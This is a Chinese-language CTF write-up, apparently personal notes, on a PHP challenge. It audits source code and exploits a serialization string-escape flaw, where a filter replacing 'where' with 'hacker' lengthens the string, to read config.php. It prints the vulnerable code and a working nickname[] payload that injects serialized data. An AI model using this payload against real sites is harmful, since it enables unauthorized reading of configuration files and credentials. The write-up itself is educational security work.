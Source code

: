 ![[Pasted image 20221219085611.png|500]]

---
首页长这样

![[Pasted image 20221219085636.png|200]]

试密码和`sql`注入没试出来，八成是要扫目录

![[Pasted image 20221219105158.png|500]]

下载下来

![[Pasted image 20221219113827.png|300]]

访问`/register.php`进行一个账号的注册

![[Pasted image 20221219113932.png|200]]

来到`/profile.php`，然后又跳转到`/update.php`

![[Pasted image 20221219114033.png|200]]

有一个`upload`文件夹，`update.php`可以上传图片

---
`update.php`的关键代码
```php
$username = $_SESSION['username'];
if(!preg_match('/^\d{11}$/', $_POST['phone']))
	die('Invalid phone');

if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
	die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');

$file = $_FILES['photo'];
if($file['size'] < 5 or $file['size'] > 1000000)
	die('Photo size error');

move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
```
最后向`$user->update_profile`传递了经过序列化的`$profile`

`update_profile`在`class.php`中
```php
public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```
调用了`parent::filter`
```php
public function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
对序列化结果进行过滤（大喜

八成是字符串逃逸了

利用`nickname`制造逃逸，通过传递数组绕过`preg_match`

`where`是5个字符，`hacker`是6个字符，利用对`where`的过滤把`nickname`中的非法字符顶出去

目标是读取`config.php`
```php
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
	$flag = '';
?>
```

构造`payload`
```php
<?php
	$profile['phone'] = '18888888888';
	$profile['email'] = 'somebody@host.com';
	$profile['nickname'] = array('nickname');
	$profile['photo'] = 'upload/sdfia';
	echo serialize($profile);
?>
```

> a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:17:"somebody@host.com";s:8:"nickname";a:1:{i:0;s:8:"nickname";}s:5:"photo";s:12:"upload/sdfia";}

我们需要逃逸的内容
```
";}s:5:"photo";s:10:"config.php";}
```
长度为34

于是`payload`为
```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

![[Pasted image 20221219184827.png|500]]

![[Pasted image 20221219184912.png|500]]

![[Pasted image 20221219184953.png|500]]

![[Pasted image 20221219185026.png|500]]

![[Pasted image 20221219185118.png|700]]

#Web #PHP #目录扫描 #代码审计 #反序列化 #字符串逃逸 #HTTP #encoding